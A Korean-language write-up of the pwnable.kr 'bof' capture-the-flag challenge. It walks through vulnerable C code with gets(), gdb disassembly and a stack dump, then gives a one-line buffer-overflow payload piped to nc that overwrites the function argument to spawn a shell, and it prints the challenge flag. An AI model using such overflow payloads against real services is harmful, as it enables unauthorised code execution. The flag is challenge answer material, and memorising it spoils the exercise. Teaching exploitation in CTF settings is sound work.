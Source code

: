# bof

---


우선 코드는 다음과 같다.

```c
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
    void func(int key){
    	char overflowme[32];
    	printf("overflow me : ");
    	gets(overflowme);	// smash me!
    	if(key == 0xcafebabe){
    		system("/bin/sh");
    	}
    	else{
    		printf("Nah..\n");
    	}
    }
    int main(int argc, char* argv[]){
    	func(0xdeadbeef);
    	return 0;
    }
```
```gdb
    gdb-peda$ pd main
    Dump of assembler code for function main:
       0x00000000004006d6 <+0>: 	push rbp
       0x00000000004006d7 <+1>: 	mov rbp, rsp
       0x00000000004006da <+4>: 	sub rsp, 0x10
       0x00000000004006de <+8>: 	mov DWORD PTR [rbp-0x4], edi
       0x00000000004006e1 <+11>:	mov QWORD PTR [rbp-0x10], rsi
       0x00000000004006e5 <+15>:	mov edi, 0xdeadbeef
       0x00000000004006ea <+20>:	call 0x400666 \ < func>
       0x00000000004006ef <+25>:	mov eax, 0x0
       0x00000000004006f4 <+30>:	leave  
       0x00000000004006f5 <+31>:	ret
    End of assembler dump.
```
```gdb
    gdb-peda$ pd func
    Dump of assembler code for function func:
       0x0000000000400666 <+0>: 	push   rbp
       0x0000000000400667 <+1>: 	mov rbp, rsp
       0x000000000040066a <+4>: 	sub rsp,0x40
       0x000000000040066e <+8>: 	mov DWORD PTR [rbp-0x34], edi
       0x0000000000400671 <+11>:	mov rax, QWORD PTR fs:0x28
       0x000000000040067a <+20>:	mov QWORD PTR [rbp-0x8], rax
       0x000000000040067e <+24>:	xor eax, eax
       0x0000000000400680 <+26>:	mov edi, 0x400784
       0x0000000000400685 <+31>:	mov eax, 0x0
       0x000000000040068a <+36>:	call   0x400530 <printf@plt>
       0x000000000040068f <+41>:	lea rax, [rbp-0x30]
       0x0000000000400693 <+45>:	mov rdi, rax
       0x0000000000400696 <+48>:	mov eax, 0x0
       0x000000000040069b <+53>:	call   0x400550 <gets@plt>
       0x00000000004006a0 <+58>:	cmp DWORD PTR [rbp-0x34], 0xcafebabe
       0x00000000004006a7 <+65>:	jne 0x4006b5 <func+79>
       0x00000000004006a9 <+67>:	mov edi,0x400793
       0x00000000004006ae <+72>:	call   0x400520 <system@plt>
       0x00000000004006b3 <+77>:	jmp 0x4006bf <func+89>
       0x00000000004006b5 <+79>:	mov edi, 0x40079b
       0x00000000004006ba <+84>:	call   0x400500 <puts@plt>
       0x00000000004006bf <+89>:	nop
       0x00000000004006c0 <+90>:	mov rax, QWORD PTR [rbp-0x8]
       0x00000000004006c4 <+94>:	xor rax, QWORD PTR fs:0x28
       0x00000000004006cd <+103>:	je 0x4006d4 <func+110>
       0x00000000004006cf <+105>:	call   0x400510 <__stack_chk_fail@plt>
       0x00000000004006d4 <+110>:	leave  
       0x00000000004006d5 <+111>:	ret
    End of assembler dump.
```
`func()`함수로 넘겨주는 0xdeadbeef라는 인자와 0xcafebabe라는 인자를 비교해서 일치한다면, 쉘을 따낼 수 있다. 때문에 `func()`함수의 `gets()`함수에서 일어나는 bufferoverflow를 이용해서 `func()`함수의 인자를 바꾸어주면 된다.

하지만 만약에 해당 파일이 32bit파일이었다면 스택으로 전달되는 인자를 쉽게 바꿀 수 있지만 해당 파일은 64bit이기 때문에 인자를 스택을 이용하여 주고받지 않는다. `func()+8`에서 인자로 받은 값을 rbp-0x34에 저장한다. 이후 `func()+41`, `func()+45`에서 rbp-0x30값을 rdi로 넘겨주고 이 곳에 입력받은 문자열을 저장한다. 그리고 `func()+58`에서 0xcafebabe와 rbp-0x34에 든 값을 비교한다. 때문에 `func()`함수의 인자의 위치가 입력을 받는 공간보다 위에있기 때문에 bufferoverflow를 이용해서 직접적으로 해당 값을 바꿀 수 없다.

---

이렇게 어려운 문제인 줄 알았는데 다른 바이너리 파일이었다.

실제로는 아주 간단했다.

위와 같은 파일이 아니라 다음과 같았다.
```gdb
    gdb-peda$ pd main
    Dump of assembler code for function main:
       0x0000068a <+0>: 	push   ebp
       0x0000068b <+1>: 	mov ebp,esp
       0x0000068d <+3>: 	and esp,0xfffffff0
       0x00000690 <+6>: 	sub esp,0x10
       0x00000693 <+9>: 	mov DWORD PTR [esp],0xdeadbeef
       0x0000069a <+16>:	call   0x62c <func>
       0x0000069f <+21>:	mov eax,0x0
       0x000006a4 <+26>:	leave  
       0x000006a5 <+27>:	ret
    End of assembler dump.
```
```gdb
    gdb-peda$ pd func
    Dump of assembler code for function func:
       0x0000062c <+0>: 	push   ebp
       0x0000062d <+1>: 	mov ebp,esp
       0x0000062f <+3>: 	sub esp,0x48
       0x00000632 <+6>: 	mov eax,gs:0x14
       0x00000638 <+12>:	mov DWORD PTR [ebp-0xc],eax
       0x0000063b <+15>:	xor eax,eax
       0x0000063d <+17>:	mov DWORD PTR [esp],0x78c
       0x00000644 <+24>:	call   0x645 <func+25>
       0x00000649 <+29>:	lea eax,[ebp-0x2c]
       0x0000064c <+32>:	mov DWORD PTR [esp],eax
       0x0000064f <+35>:	call   0x650 <func+36>
       0x00000654 <+40>:	cmp DWORD PTR [ebp+0x8],0xcafebabe
       0x0000065b <+47>:	jne 0x66b <func+63>
       0x0000065d <+49>:	mov DWORD PTR [esp],0x79b
       0x00000664 <+56>:	call   0x665 <func+57>
       0x00000669 <+61>:	jmp 0x677 <func+75>
       0x0000066b <+63>:	mov DWORD PTR [esp],0x7a3
       0x00000672 <+70>:	call   0x673 <func+71>
       0x00000677 <+75>:	mov eax,DWORD PTR [ebp-0xc]
       0x0000067a <+78>:	xor eax,DWORD PTR gs:0x14
       0x00000681 <+85>:	je 0x688 <func+92>
       0x00000683 <+87>:	call   0x684 <func+88>
       0x00000688 <+92>:	leave  
       0x00000689 <+93>:	ret
    End of assembler dump.
```
`func()+35`는 `gets()`를 호출하는 부분이다. 이후에 `func()+40`에 break를 걸고 A*24를 입력한 후 스택을 확인한 결과 다음과 같았다.
```gdb
    gdb-peda$ x/100x $esp
    0xffffce70:	0xffffce8c	0xffffcf14	0xf7fb6000	0x0000af17
    0xffffce80:	0xffffffff	0x0000002f	0xf7e10dc8	0x41414141
    0xffffce90:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffcea0:	0x41414141	0x00000000	0x56556ff4	0x8085b100
    0xffffceb0:	0xf7fb6000	0xf7fb6000	0xffffced8	0x5655569f
    0xffffcec0:	0xdeadbeef	0x56555250	0x565556b9	0x00000000
    0xffffced0:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7e1c637
    0xffffcee0:	0x00000001	0xffffcf74	0xffffcf7c	0x00000000
```
0x41이 시작되는 0xffffce8c부터 0xdeadbeef가 있는 0xffffcec0까지 거리는 52byte이다. 따라서 다음과 같이 익스할 수 있다.

<b>(python -c "print 'A'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000</b>

**flag: daddy, I just pwned a buFFer :)**
